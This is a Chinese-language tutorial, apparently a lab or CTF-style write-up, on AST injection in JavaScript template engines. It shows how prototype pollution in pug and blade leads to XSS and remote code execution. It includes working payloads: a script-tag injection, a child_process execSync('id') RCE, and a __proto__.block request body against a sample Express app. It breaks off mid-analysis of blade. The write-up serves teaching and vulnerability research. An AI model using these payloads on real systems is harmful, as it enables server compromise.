一文带你理解AST Injection

* * *

# 一文带你理解AST Injection

## 模版引擎是什么

JS web开发中常用的模版引擎如 `ejs`、`pug`、`handlebars`  
功能：动态渲染HTML代码，创建可重复使用的页面结构

`ejs` 模版使用

```plain
// 安装EJS模块：npm install ejs

// 引入EJS模块
const ejs = require('ejs');

// 定义模板
const template = `
  <h1>Hello, <%= name %>!</h1>
`;

// 渲染模板
const data = { name: 'John' };
const html = ejs.render(template, data);

console.log(html);
```

`handlebars` 模版使用

```plain
// 安装Handlebars模块：npm install handlebars

// 引入Handlebars模块
const handlebars = require('handlebars');

// 定义模板
const template = `
  <h1>Hello, {{name}}!</h1>
`;

// 编译模板
const compiledTemplate = handlebars.compile(template);

// 渲染模板
const data = { name: 'John' };
const html = compiledTemplate(data);

console.log(html);
```

`pug` 模版使用

```plain
// 安装Pug模块：npm install pug

// 引入Pug模块
const pug = require('pug');

// 定义模板
const template = `
  h1 Hello, #{name}!
`;

// 编译模板
const compiledTemplate = pug.compile(template);

// 渲染模板
const data = { name: 'John' };
const html = compiledTemplate(data);

console.log(html);
```

总结：可以看到模版引擎其实都有各自的一些特定语法规则，比如 pug 中可以通过 `#{name}` 来引用外部环境的变量， ejs 则是 `<%= name %>`。通过这种方式简化html代码的编写，同时实现模版重用

## 模版引擎的工作原理

本质上，引擎是通过针对你使用模版语言编写的模版进行解析，从而生成新的JS代码。大体过程可以概括如下：

`词法解析 -> 语法解析 -> 代码生成`

[](https://xzfile.aliyuncs.com/media/upload/picture/20230627121306-eb0037e2-14a0-1.png)

但是在语法树处理的过程中，在处理节点的时候，存在大量的赋值、循环操作，而在大部分模版引擎中，都是这么写的：

```plain
attrs[name] = attrs[value]  

if(ast.block){

}

for(var i in node){

}
```

1.  赋值操作未判断对应的属性是否为对象自身的属性，导致访问到原型链的 `Object.prototype` 的属性
2.  判断某个属性是否存在，同样未判断是否为对象自身属性是否存在，若存在原型链污染，则可以进入if判断
3.  JS的 for...in 循环会遍历对象的所有可枚举属性，包括原型链上的属性。例如：

```plain
let obj = { a: 1, b: 2 };
obj.__proto__.c = 3;
for (let i in obj) {
  console.log(i); // a, b, c
}
```

因此若存在原型链污染，则可以随意修改AST树，进而影响生成的代码，最终达到RCE（远程代码执行）的目的

需要注意的是：

1.  AST树的生成本质上是影响生成的字符串，因此也可以导致XSS漏洞
2.  代码执行的那一步才会导致RCE，这时候需要第一步通过原型链污染注入代码，进而影响生成的代码

[](https://xzfile.aliyuncs.com/media/upload/picture/20230627121320-f3967fa6-14a0-1.png)

### pug template AST injection 示例

```plain
const pug = require('pug');

// 模拟原型链污染
Object.prototype.block = {"type":"Text","val":`<script>alert(origin)</script>`};

const source = `h1= msg`;

var fn = pug.compile(source, {});
var html = fn({msg: 'It works'});

console.log(html); // <h1>It works<script>alert(origin)</script></h1>
```

当执行到 `fn({msg: 'It works'});` 这一步的时候，本质上是进入了一段函数

打印出这段函数的代码，可以看到通过原型链污染我们实现了向生成代码中插入一段字符串

```plain
(function anonymous(pug
) {
function template(locals) {var pug_html = "", pug_mixins = {}, pug_interp;var pug_debug_filename, pug_debug_line;try {;
    var locals_for_with = (locals || {});

    (function (msg) {
      ;pug_debug_line = 1;
pug_html = pug_html + "\u003Ch1\u003E";
;pug_debug_line = 1;
pug_html = pug_html + (pug.escape(null == (pug_interp = msg) ? "" : pug_interp)) + "\u003Cscript\u003Ealert(origin)\u003C\u002Fscript\u003E\u003C\u002Fh1\u003E";
    }.call(this, "msg" in locals_for_with ?
        locals_for_with.msg :
        typeof msg !== 'undefined' ? msg : undefined));
    ;} catch (err) {pug.rethrow(err, pug_debug_filename, pug_debug_line);};return pug_html;}
return template;
})
```

### AST Injection原理分析(以pug为例)

#### 语法树结构

pug 解析 `h1= msg` ，生成的语法树结构：

```plain
{
    "type":"Block",
    "nodes":[
        {
            "type":"Tag",
            "name":"h1",
            "selfClosing":false,
            "block":{
                "type":"Block",
                "nodes":[
                    {
                        "type":"Code",
                        "val":"msg",
                        "buffer":true,
                        "mustEscape":true,
                        "isInline":true,
                        "line":1,
                        "column":3
                    }
                ],
                "line":1
            },
            "attrs":[

            ],
            "attributeBlocks":[

            ],
            "isInline":false,
            "line":1,
            "column":1
        }
    ],
    "line":0
}
```

语法树生成后，会调用 `walkAst` 执行语法树的解析过程，依次对每个节点的类型进行判断，即如下代码：

```plain
function walkAST(ast, before, after, options){

    parents.unshift(ast);

    switch (ast.type) {
        case 'NamedBlock':
        case 'Block':
          ast.nodes = walkAndMergeNodes(ast.nodes);
          break;
        case 'Case':
        case 'Filter':
        case 'Mixin':
        case 'Tag':
        case 'InterpolatedTag':
        case 'When':
        case 'Code':
        case 'While':
          if (ast.block) { // 注意这里
            ast.block = walkAST(ast.block, before, after, options);
          }
          break;
        case 'Text':
          break;
    }
    parents.shift();

}
```

#### 语法树执行顺序

以刚刚生成的语法树结构举例，解析顺序为：

1.  Block
2.  Tag
3.  Block
4.  Code
5.  …?

注意第4步解析 `node.Type` 为 `Code` 类型，会执行如下代码：

```plain
case 'Code':
        case 'While':
          if (ast.block) { // 注意这里
            ast.block = walkAST(ast.block, before, after, options);
          }
```

1.  判断 `ast.block` 属性是否存在，此处的 `ast` 即当前ast语法树的节点
2.  如果存在，继续递归解析 block

#### 结合原型链污染

如果某处存在原型链污染漏洞，使得

```plain
Object.prototype.block = {"type":"Text","val":`<script>alert(origin)</script>`};
```

那么 `ast.block` 就会访问到 `ast.__proto__.block` ，即`Object.prototype.block` 的属性

此时代码输出结果，导致了XSS

```plain
const pug = require('pug');

Object.prototype.block = {"type":"Text","val":`<script>alert(origin)</script>`};

const source = `h1= msg`;

var fn = pug.compile(source, {});
var html = fn({msg: 'It works'});

console.log(html); // <h1>It works<script>alert(origin)</script></h1>
```

## RCE

我们知道pug本质上是将一段代码，如 `h1 =msg` 编译为一段js代码，背后其实就是生成语法树+ `new Function`

因此如果能通过AST Injection插入节点，并使之成为代码，即可达到远程代码执行的目的。

刚好pug中就有如下代码：

```plain
// /node_modules/pug-code-gen/index.js

if (debug && node.debug !== false && node.type !== 'Block') {  
    if (node.line) {  
        var js = ';pug_debug_line = ' + node.line;  
        if (node.filename)  
            js += ';pug_debug_filename = ' + stringify(node.filename);  
        this.buf.push(js + ';');  
    }  
}
```

那么我们通过 AST Injection + Prototype Pollution 即可实现RCE

```plain
const pug = require('pug');

Object.prototype.block = {"type":"Text","line":`console.log(process.mainModule.require('child_process').execSync('id').toString())`};

const source = `h1= msg`;

var fn = pug.compile(source, {});
var html = fn({msg: 'It works'});

console.log(html);
```

## Attack example

express 开发的web服务，其中一个CGI如下：  
(注，镜像已经上传，本地有docker环境可直接运行 `docker run -d --restart=always -p 8007:1337 rayepeng/blitzprop:latest` )

```plain
router.post('/api/submit', (req, res) => {
    const { song } = unflatten(req.body);

    if (song.name.includes('Not Polluting with the boys') || song.name.includes('ASTa la vista baby') || song.name.includes('The Galactic Rhymes') || song.name.includes('The Goose went wild')) {
        return res.json({
            'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user:'guest' })
        });
    } else {
        return res.json({
            'response': 'Please provide us with the name of an existing song.'
        });
    }
});
```

本地跑起来后运行在1337端口：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230627121336-fc9939f4-14a0-1.png)

### 原型链污染

注意到这一行代码：

```plain
const { song } = unflatten(req.body);
```

`unflatten` 这个库存在原型链污染

```plain
var unflatten = require('flat').unflatten;
unflatten({ '__proto__.polluted': true });
console.log(this.polluted); // true
```

### AST Injection

注意到这一行代码：

```plain
pug.compile('span Hello #{user}, thank you for letting us know!')({ user:'guest' })
```

结合原型链污染，可以实现RCE

```plain
{
       "song.name": "The Goose went wild", 
        "__proto__.block":{
            "type":"Text",
            "line":"process.mainModule.require('child_process').exec('/System/Applications/Calculator.app/Contents/MacOS/Calculator')" // 可以执行任意命令
        }
}
```

接下来实际分析一个模版引擎的漏洞挖掘案例：

## blade漏洞挖掘实例

除去上文介绍的三种模版引擎，`blade` 也是常用的一种，安装方法

```plain
npm install blade
```

编写一个示例：

```plain
const blade = require('blade');

const template = `html
    head
        title Blade
    body
        #nav
            ul
                - for(var i in nav)
                    li
                        a(href=nav[i])= i
        #content.center
            h1 Blade is cool`;
blade.compile(template, {'debug': true}, function(err, tmpl) {
    console.log(err);
});
```

正常得到的语法树为：

```plain
{
  doctypes: [],
  nodes: [
    {
      type: 'tag',
      name: 'html',
      id: null,
      classes: [],
      attributes: {},
      children: [
        {
          type: 'tag',
          name: 'head',
          id: null,
          classes: [],
          attributes: {},
          children: [
            {
              type: 'tag',
              name: 'title',
              id: null,
              classes: [],
              attributes: {},
              children: [ { escape: true, type: 'text', text: 'Blade' } ],
              line: 3,
              col: 9
            }
          ],
          line: 2,
          col: 5
        },
        {
          type: 'tag',
          name: 'body',
          id: null,
          classes: [],
          attributes: {},
          children: [
            {
              type: 'tag',
              name: 'div',
              id: 'nav',
              classes: [],
              attributes: {},
              children: [
                {
                  type: 'tag',
                  name: 'ul',
                  id: null,
                  classes: [],
                  attributes: {},
                  children: [
                    {
                      type: 'code',
                      code: 'for(var i in nav)',
                      multiline: false,
                      children: [
                        {
                          type: 'tag',
                          name: 'li',
                          id: null,
                          classes: [],
                          attributes: {},
                          children: [
                            {
                              type: 'tag',
                              name: 'a',
                              id: null,
                              classes: [],
                              attributes: { href: [Object] },
                              children: [ [Object] ],
                              line: 9,
                              col: 25
                            }
                          ],
                          line: 8,
                          col: 21
                        }
                      ],
                      line: 7,
                      col: 17
                    }
                  ],
                  line: 6,
                  col: 13
                }
              ],
              line: 5,
              col: 9
            },
            {
              type: 'tag',
              name: 'div',
              id: 'content',
              classes: [ 'center' ],
              attributes: {},
              children: [
                {
                  type: 'tag',
                  name: 'h1',
                  id: null,
                  classes: [],
                  attributes: {},
                  children: [
                    {
                      escape: true,
                      type: 'text',
                      text: 'Blade is cool'
                    }
                  ],
                  line: 11,
                  col: 13
                }
              ],
              line: 10,
              col: 9
            }
          ],
          line: 4,
          col: 5
        }
      ],
      line: 1,
      col: 1
    }
  ]
}
```

既然是挖掘AST Injection，此时我们假设随便给 `Object.prototype` 污染个属性

```plain
Object.prototype.otherprop = {'test': 'test'};
```

此时得到的语法树变成了如下，且代码运行报错：

```plain
{
  doctypes: [],
  nodes: [
    {
      type: 'tag',
      name: 'html',
      id: null,
      classes: [],
      attributes: {},
      children: [
        {
          type: 'tag',
          name: 'head',
          id: null,
          classes: [],
          attributes: {},
          children: [
            {
              type: 'tag',
              name: 'title',
              id: null,
              classes: [],
              attributes: {},
              children: [ { escape: true, type: 'text', text: 'Blade' } ],
              line: 3,
              col: 9
            }
          ],
          line: 2,
          col: 5
        },
        {
          type: 'tag',
          name: 'body',
          id: null,
          classes: [],
          attributes: {},
          children: [
            {
              type: 'tag',
              name: 'div',
              id: 'nav',
              classes: [],
              attributes: {},
              children: [
                {
                  type: 'tag',
                  name: 'ul',
                  id: null,
                  classes: [],
                  attributes: {},
                  children: [
                    {
                      type: 'code',
                      code: 'for(var i in nav)',
                      multiline: false,
                      children: [
                        {
                          type: 'tag',
                          name: 'li',
                          id: null,
                          classes: [],
                          attributes: {},
                          children: [
                            {
                              type: 'tag',
                              name: 'a',
                              id: null,
                              classes: [],
                              attributes: { href: [Object], undefined: undefined },
                              children: [ [Object] ],
                              line: 9,
                              col: 25
                            }
                          ],
                          line: 8,
                          col: 21
                        }
                      ],
                      line: 7,
                      col: 17
                    }
                  ],
                  line: 6,
                  col: 13
                }
              ],
              line: 5,
              col: 9
            },
            {
              type: 'tag',
              name: 'div',
              id: 'content',
              classes: [ 'center' ],
              attributes: {},
              children: [
                {
                  type: 'tag',
                  name: 'h1',
                  id: null,
                  classes: [],
                  attributes: {},
                  children: [
                    {
                      escape: true,
                      type: 'text',
                      text: 'Blade is cool'
                    }
                  ],
                  line: 11,
                  col: 13
                }
              ],
              line: 10,
              col: 9
            }
          ],
          line: 4,
          col: 5
        }
      ],
      line: 1,
      col: 1
    }
  ]
}
```

注意到出现在第9行处理代码的时候：

```plain
children: [
    {
      type: 'tag',
      name: 'a',
      id: null,
      classes: [],
      attributes: { href: [Object], undefined: undefined },
      children: [ [Object] ],
      line: 9,
      col: 25
```

出现了一个 `undefined` 的属性，这里是怎么来的呢？

以及，堆栈报错，可以作为辅助漏洞挖掘的信息

```plain
---------------------------------------------
TypeError: Compile error: Cannot read properties of undefined (reading 'text')
    at <anonymous>


    at Compiler._compileNode (/..../js-ast-injection/node_modules/blade/lib/compiler.js:309:17)
    at Compiler._compileNode (/..../js-ast-injection/node_modules/blade/lib/compiler.js:356:12)
    at Compiler._compileNode (/..../js-ast-injection/node_modules/blade/lib/compiler.js:486:11)
    at Compiler._compileNode (/..../js-ast-injection/node_modules/blade/lib/compiler.js:356:12)
    at Compiler._compileNode (/..../js-ast-injection/node_modules/blade/lib/compiler.js:356:12)
    at Compiler._compileNode (/..../js-ast-injection/node_modules/blade/lib/compiler.js:356:12)
    at Compiler._compileNode (/..../js-ast-injection/node_modules/blade/lib/compiler.js:356:12)
    at Compiler.compile (/..../js-ast-injection/node_modules/blade/lib/compiler.js:114:9)
    at Object.compile (/..../js-ast-injection/node_modules/blade/lib/blade.js:57:12)
    at Object.<anonymous> (/..../js-ast-injection/blade1.js:23:7) {
  source: 'html\n' +
    '    head\n' +
    '        title Blade\n' +
    '    body\n' +
    '        #nav\n' +
    '            ul\n' +
    '                - for(var i in nav)\n' +
    '                    li\n' +
    '                        a(href=nav[i])= i\n' +
    '        #content.center\n' +
    '            h1 Blade is cool',
  column: undefined,
  lastFilename: undefined,
  filename: undefined,
  line: undefined
}
```

### 代码分析

Blade模版引擎的处理流程和其他模版引擎类似，如下过程：代码 ->词法分析 -> ast 树 -> code-gen  
单纯从堆栈信息，只能看到处理语法树时候遇到的报错，具体在这里：

```plain
for(var i in attrs)
{
    //interpolate text attributes
    if(attrs[i].text)
    {
        var stringified = JSON.stringify(attrs[i].text),
            interpolated = bladeutil.interpolate(stringified, ns);
        //check to see if this text attribute needs to be interpolated
        if(interpolated != stringified)
        {
            delete attrs[i].text;
            attrs[i].code = interpolated;
        }
    }
```

因为 `attrs[i].text` 显然是去访问一个 `undefined` 的属性，所以就会报错，这里无法获得更多信息了，只能动态调试代码去分析了。

### 调用栈分析

`blade.compile` 函数跟进，会调用到内部模块的 `parse`  
跟进 `parser.parse` 函数

[](https://xzfile.aliyuncs.com/media/upload/picture/20230627121352-068d81f4-14a1-1.png)

文件位于： `node_modules/blade/lib/parser/index.js`

通过闭包导出了个函数：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230627121358-09c7cd52-14a1-1.png)

跟进我们想要的函数，从函数命名上可以看出就是在利用堆栈去处理字符串，生成ast树，基本的编译原理了属于是

[](https://xzfile.aliyuncs.com/media/upload/picture/20230627121403-0d3c53e0-14a1-1.png)

我们只关注 `attributes` 的处理，找到对应的函数， `parse_attribute`

[](https://xzfile.aliyuncs.com/media/upload/picture/20230627121409-10b0478e-14a1-1.png)

这行代码：

```plain
result0 = (function(offset, line, column, name, escape, value) {
    return {
        'name': name,
        'value': {
            'escape': escape != "!",
            'code': value
        }
    };
})(pos0.offset, pos0.line, pos0.column, result0[0], result0[1], result0[3]);
```

就是返回一个属性的对象，这个是符合正常逻辑的

但是此时还没有看到我们想搞明白的 `undefined` 属性是怎么出现的，不急

我们先从函数这个返回, 因为我们知道生成的这个属性肯定是要加到对应的ast树上的

果然，从 `parse_attribute` 返回，经过了一段处理代码之后，到达了这一处：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230627121416-14d8bf94-14a1-1.png)

```plain
result0 = (function(offset, line, column, first_attr, next_attrs) {
            var attrs = {};
            attrs[first_attr.name] = first_attr.value;
            for(var i in next_attrs)
                attrs[next_attrs[i].name] = next_attrs[i].value;
            return attrs;
        })(pos0.offset, pos0.line, pos0.column, result0[3], result0[4]);
```

其中： `attrs[first_attr.name] = first_attr.value;`

